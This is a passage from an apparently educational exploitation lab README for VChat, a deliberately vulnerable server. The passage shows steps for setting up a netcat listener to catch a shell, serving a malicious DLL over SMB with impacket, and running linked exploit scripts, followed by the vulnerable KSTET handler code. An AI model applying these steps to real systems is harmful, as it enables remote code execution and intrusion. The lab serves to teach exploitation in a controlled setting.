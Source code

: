 3. Run a [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080 and then run [exploit12b-MSF.py](./SourceCode/exploit6.py)

	```
	$ nc -l -v -p 8080
	```
	* `nc`: The netcat command
	* `-l`: Set netcat to listen for connections 
	* `v`: Verbose output 
	* `p`: Set to listen on a port, in this case port 8080.

4. If the SMB share has not been started, navigate to where your malicious DLL is located and start it. 
	```
	$ sudo impacket-smbserver -smb2support ABCD .
	```
	* `sudo`: This command and operation requires root privileges to bind to the well known SMB port 445.
	* [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver):  This is the command the launches a SMB server and add a share as specified. 
	* `smb2support`: Enable SMB2 Support.
	* `A`: Name of the current Share. This is chosen to be short as we would complicate the shellcode generation otherwise.
	* `.`: This is the current directory we are in, we can specify a path to share a specific directory. 
5. Run the [exploit5.py](./SourceCode/exploit5.py) program!

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/8da0d1be-485d-4e47-93b2-91c53a917773

## VChat and Exploit Code

### VChat Code
As with the previous exploits the VChat code is relatively simple in nature. Once a connection is received on port 9999, a thread is created running the  `DWORD WINAPI ConnectionHandler(LPVOID cli)` function, where `LPVOID cli` is a void pointer that holds the address of a `client_t` structure; this is a custom structure that contains the necessary connection information.  


Below is the code segment that handles the `KSTET` message type. 
```c
else if (strncmp(RecvBuf, "KSTET ", 6) == 0) {
	char* KstetBuf = malloc(100);
	strncpy(KstetBuf, RecvBuf, 100);
	memset(RecvBuf, 0, DEFAULT_BUFLEN);
	Function2(KstetBuf);
	SendResult = send(Client, "KSTET SUCCESSFUL\n", 17, 0);
}
```
The buffer we copy to is only 100 bytes, and by using the [`strncpy(char * destination, const char * source, size_t num )`](https://cplusplus.com/reference/cstring/strncpy/) function, we guarantee we will only copy 100 bytes from the source into the destination buffer. This prevents buffer overflows as we limit the number of character copied not by the size of the source, but based on something we specify. Then to prevent malicious code from existing in memory, as the original Vulnserver did not free the receiving buffer the line `memset(RecvBuf, 0, DEFAULT_BUFLEN);` zeros out the receiving buffer. Then the code calls `Function2(...)`; this is where the overflow occurs. 
